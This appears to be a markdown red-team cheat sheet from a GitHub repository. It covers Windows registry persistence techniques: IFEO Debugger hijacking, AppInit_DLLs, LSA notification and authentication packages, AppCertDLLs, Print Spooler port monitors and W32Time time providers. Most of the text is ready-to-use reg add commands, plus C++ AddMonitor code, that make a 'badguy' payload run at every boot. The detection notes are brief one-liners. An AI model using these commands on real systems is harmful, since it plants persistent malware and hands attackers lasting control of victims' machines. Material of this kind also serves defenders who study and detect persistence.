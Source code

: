 # Fix needed

## Debugger


#### Example:

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C C:\Windows\System32\calc.exe & c:\path\to\badguy.exe" /f
```

Add command in **HKLM** reg,  that will execute your **badguy.exe**  

#### Detection:
User can see malicious string in reg **HKLM**


</br></br>


## AppInit

#### Example:
##### For x64 programs:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\badguy64.dll" /f

```

##### For x32 programs:
```powershell
reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f

reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\badguy32.dll" /f
```

Turn LoadAppInit_DLLs to 1 and add in AppInit_DLLs path to malware.

#### Detection:

User can see that value of **LoadAppInit_DLLs** at *HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows* or  *HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows* is set to 1 and also can see malicious string at the same path in  **AppInit_DLLs**.


</br></br>

## System process Lsass

#### Example:
```powershell
reg add "HKLM\system\currentcontrolset\control\lsa" /v "Notification Packages" /t reg_multi_sz /d "c:\path\to\badguy.dll" /f

```
Just add a library for *Lsass* process

#### Detection:
User can see malicious string in reg **HKLM**

</br></br>

## AppCert DLLs

   #### Example:
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Session Manager" /v AppCertDLLs /t REG_SZ /d "C:\path\to\badguy.dll"

```
*badguy.dll* loads when Windows uses Api functions like: *CreateProcess, CreateProcessAsUser, CreateProcessWithLoginW, CreateProcessWithTokenW, WinExec*.



#### Detection:
User can see malicious string in reg **HKLM**

</br></br>

## Authentification Packages

#### Example:
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Authentication Packages" /v persistence /t REG_SZ /d "C:\path\to\badguy.exe"

```

*badguy.exe* executes when system loads packets **Authentication Pack** on system startup
#### Detection:
User can see malicious string in reg **HKLM**

</br></br>

## Port Monitors
The Print Spooler service is responsible for managing printing jobs in OS Windows. Interaction with the service is performed through the Print Spooler API which contains a function (**AddMonitor**) that can be used to install local port monitors and connect the configuration, data and monitor files. This function has the ability to inject a DLL into the **spoolsv.exe** process and by creating a registry key red team operators can achieve persistence on the system. 

*refers:* 
* https://pentestlab.blog/2019/10/28/persistence-port-monitors/
* https://www.ired.team/offensive-security/persistence/t1013-addmonitor#execution


#### Example:
compile this cpp file, where *badguy.dll* your payload
```C++
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("badguy.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```

Move **badguy.dll** and your compiled binary to *%systemroot%* folder

```powershell
copy C:\path\to\badguy.dll %systemroot%
copy C:\path\to\your_binary.exe %systemroot%
```
Start your binary.

Add your dll to registry
```powershell
reg add "hklm\system\currentcontrolset\control\print\monitors\persistence" /v "Driver" /d "badguy.dll" /t REG_SZ
```
With every system startup the *spoolsv.exe* process will load all the driver DLL files that exist in the Monitors registry key and stored in System32 folder.

#### Detection:

User can see malicious string in reg **HKLM**

</br></br>

## Time providers

 Time providers are implemented in the form of a DLL file which resides in System32 folder. The service **W32Time** initiates during the startup of Windows and loads the w32time.dll. Since the associated service is starting automatically during Windows startup, it can be used as a persistence mechanism.
 
 
```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\path\to\badguy.dll"
```

Add *badguy.dll* to *W32Time* Timeprovider service. NtpClient starts with system for time synsynchronization and will execute your *dll*.

*refer: https://pentestlab.blog/2019/10/22/persistence-time-providers/*

#### Detection:

User can see malicious **dll** in reg of **W32Time**

</br></br>
